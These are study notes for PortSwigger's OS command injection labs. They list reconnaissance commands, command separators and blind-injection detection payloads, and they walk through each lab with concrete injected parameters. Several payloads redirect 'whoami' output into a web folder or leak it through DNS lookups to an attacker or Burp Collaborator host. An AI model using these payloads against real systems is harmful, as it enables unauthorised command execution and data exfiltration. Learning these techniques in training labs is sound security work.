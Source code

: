 # OS Command Injection Notes

[Portswigger](https://portswigger.net/web-security/os-command-injection)

## Methodology

### Useful commands

|Purpose of command| 	Linux| 	Windows|
|:----|:---|:----|
|Name of current user 	|whoami 	|whoami|
|Operating system 	|uname -a 	|ver|
|Network configuration 	|ifconfig |	ipconfig /all|
|Network connections 	|netstat -an | netstat -an|
|Running processes 	|ps -ef 	|tasklist |

### Detecting blind OS command injections

**Command to detect using time delays**

```
& ping -c 10 127.0.0.1 &
```

**Command to detect by redirecting output**

```
& whoami > /var/www/static/whoami.txt &
```

Afterwards go to the /whoami/txt to determine if you did write it to the server

**Command to detect with out of band interaction**

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

### Ways of injecting OS commands

- &
- &&
- |
- ||

Separators that work only on Unix based systems
- ;
- Newline (0x0a or \n)

Unix inline execution syntax
- \`\`
- $()


## Labs Walkthrough

### OS command injection, simple case

- use the check stock level, intercept and change the storeID parameter with `1|whoami`

### Blind OS command injection with time delays

- use burp suite to intercept and modify the request that submits the feedback
- modify the email parameter with `email=x||ping+-c+10+127.0.0.1||`
- request now takes about 10 seconds to return showing the injection worked

### Blind OS command injection with output redirection

Background

```
You can use output redirection to capture the output from the command. There is a writable folder at:
/var/www/images/
```

- submit feedback again, but change the email parameter with `email=||whoami>/var/www/images/output.txt||`
- now intercept and modify the request that loads an image of a product
- modify the filename parameter with `filename=output.txt`
- observe that we get the file with our injected commands input in the file

### Blind OS command injection with out-of-band interaction

Background:
```
To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 
```

- submit feedback but change the email parameter again with `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
- poll collaborator and you should see the connection back from the application

### Blind OS command injection with out-of-band data exfiltration

- similar to above but we are trying to get the value of `whoami` out
- so send feedback again but this time append the whoami command as a concatenation of the burp collaborator as a subdomain so we can pull it off like so:

```email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||```



